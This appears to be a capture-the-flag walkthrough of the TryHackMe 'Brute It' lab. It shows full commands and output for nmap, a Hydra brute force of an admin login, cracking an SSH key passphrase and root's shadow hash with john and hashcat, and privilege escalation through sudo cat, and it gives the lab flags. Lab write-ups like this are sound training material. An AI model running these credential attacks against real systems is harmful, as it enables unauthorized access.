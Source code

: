 # TryHackMe-Brute It

## NMAP


```
Nmap scan report for 10.10.203.79                                         
Host is up (0.18s latency).                                                                                                                         
Not shown: 998 closed ports                                               
PORT   STATE SERVICE VERSION                                                                                                                        
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                                   
| ssh-hostkey:                                                                                                                                      
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)                                                                                      
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)                                                                                     
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)                                                                                   
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))                                                                                                 
|_http-server-header: Apache/2.4.29 (Ubuntu)                              
|_http-title: Apache2 Ubuntu Default Page: It works                       
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel   
```

From the nmap result we can conclude that 

#1 Search for open ports using nmap.How many ports are open?

`2` ports


#2 What version of SSH is running?

`OpenSSH 7.6p1`

#3 What version of Apache is running?

`2.4.29` 

#4 Which Linux distribution is running?

`Ubuntu`

## Gobuster

<img src="https://imgur.com/XWP9r9A.png"/>

#5 Search for hidden directories on web server.What is the hidden directory?

`/admin`

## PORT 80

We know that there is a `admin` page so lets just visit it to see what's there


<img src="https://imgur.com/hFyCD3E.png"/>

It's good to look at the source of the page

<img src="https://imgur.com/bq7jl1R.png"/>

So username is `admin` for this login page

## Hydra

```
root@kali:~/TryHackMe/Easy/Brute It# hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.203.79 http-post-form '/admin/:user=^USER^&pass=^PASS^
&Login=Login:Username or password invalid'                                 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (thi
s is non-binding, these *** ignore laws and ethics anyway).                                                                                         
                                     
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-07 01:31:15
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.203.79:80/admin/:user=^USER^&pass=^PASS^&Login=Login:Username or password invalid
[80][http-post-form] host: 10.10.203.79   login: admin   password: xavier

```

<img src="https://imgur.com/kh7WBy4.png"/>

Here you'll get the `web flag` and `rsa` private key which is `john`'s ssh private key

```
root@kali:~/TryHackMe/Easy/Brute It# ssh john@10.10.203.79 -i id_rsa 
load pubkey "id_rsa": invalid format
The authenticity of host '10.10.203.79 (10.10.203.79)' can't be established.
ECDSA key fingerprint is SHA256:6/bVnMDQ46C+aRgroR5KUwqKM6J9jAfSYFMQIOKckug.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.203.79' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 

```

Here problem is that they key is password protected so we need to crack it but before cracking it with `johntheripper` we need to have it's hash so let's do that


<img src="https://imgur.com/5KQc0lP.png"/>

Now we got the hash , lets crack this now !

```
root@kali:~/TryHackMe/Easy/Brute It# john --wordlist=/usr/share/wordlists/rockyou.txt hash 

Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
rockinroll       (id_rsa)
1g 0:00:00:01 19.56% (ETA: 01:37:16) 0.9345g/s 2821Kp/s 2821Kc/s 2821KC/s ty6868..ty5re
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:04 DONE (2020-11-07 01:37) 0.2145g/s 3077Kp/s 3077Kc/s 3077KC/sa6_123..*7¡Vamos!
Session completed

```
And we got the passpharse of `id_rsa`

<img src="https://imgur.com/mPVDIfB.png"/>

And we are logged in as `john`

```
john@bruteit:~$ ls -al
total 40
drwxr-xr-x 5 john john 4096 Sep 30 14:11 .
drwxr-xr-x 4 root root 4096 Aug 28 14:47 ..
-rw------- 1 john john  394 Sep 30 14:11 .bash_history
-rw-r--r-- 1 john john  220 Aug 16 18:14 .bash_logout
-rw-r--r-- 1 john john 3771 Aug 16 18:14 .bashrc
drwx------ 2 john john 4096 Aug 16 20:25 .cache
drwx------ 3 john john 4096 Aug 16 20:25 .gnupg
-rw-r--r-- 1 john john  807 Aug 16 18:14 .profile
drwx------ 2 john john 4096 Aug 16 20:25 .ssh
-rw-r--r-- 1 john john    0 Aug 16 19:04 .sudo_as_admin_successful
-rw-r--r-- 1 root root   33 Aug 16 18:56 user.txt
john@bruteit:~$ cat user.txt 
THM{a_password_is_not_a_barrier}
john@bruteit:~$ cd /home

```
## Privilege Escalation

Now we can run `sudo -l` to check if the user can run any commands as root
```
john@bruteit:/home$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat

```
As you can see we can read any file by issuing command `cat` as `sudo`

```
john@bruteit:/home$ sudo /bin/cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}

```
Now since we can read any files why not read `/etc/shadow` and crack root's hash in order to privesc

<img src="https://imgur.com/wyZbK6L.png"/>

```
root@kali:~/TryHackMe/Easy/Brute It# hashcat -a 0 -m 1800 --user root_hash /usr/share/wordlists/rockyou.txt
```

In an instant we get

```
                                                                                                                                                    
Host memory required for this attack: 65 MB
                                                                                                                                                    
Dictionary cache hit:                                                                                                                               
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385                                                                                                                              
* Bytes.....: 139921507     
* Keyspace..: 14344385
                                                                                                                                                    
$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:football                  
                                                                                                                                                    
Session..........: hashcat           
Status...........: Cracked                                                
Hash.Name........: sha512crypt $6$, SHA512 (Unix)                                                                                                   
Hash.Target......: $6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ...XEVgL.
Time.Started.....: Sat Nov  7 01:44:41 2020 (0 secs)
Time.Estimated...: Sat Nov  7 01:44:41 2020 (0 secs)                                                                                                
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)                                          
Speed.#1.........:      701 H/s (7.81ms) @ Accel:32 Loops:256 Thr:1 Vec:4 
Recovered........: 1/1 (100.00%) Digests                                  
Progress.........: 128/14344385 (0.00%)
Rejected.........: 0/128 (0.00%)                                          
Restore.Point....: 0/14344385 (0.00%)                                     
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4864-5000
Candidates.#1....: 123456 -> diamond                        
```
It is a lot easy to use `johntheripper` because we only need to specify one or two arguments

```
root@kali:~/TryHackMe/Easy/Brute It# john root_hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
football         (root)
1g 0:00:00:00 DONE (2020-11-07 01:45) 2.380g/s 1219p/s 1219c/s 1219C/s 123456..letmein
Use the "--show" option to display all of the cracked passwords reliably
Session completed
root@kali:~/TryHackMe/Easy/Brute It# 

```
But still both of them have their own pros and cons , now we can just go over to target machine do `su root` and the password and we got root !
